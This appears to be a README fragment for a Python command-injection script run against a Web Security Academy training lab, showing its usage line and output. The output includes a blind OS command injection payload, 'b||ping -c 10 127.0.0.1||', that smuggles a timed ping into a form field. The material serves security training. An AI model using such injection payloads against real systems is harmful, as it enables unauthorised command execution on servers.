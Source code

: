 ### USAGE :
```bash
python3 cominj2.py https://ac041faf1e98ea44c038053c00a8006d.web-security-academy.net/
```
Output:
```
delay =  10.767915487289429
Attack succcessful with Testing Payload : b||ping -c 10 127.0.0.1||
```

__You can change payload according to your convinience.__
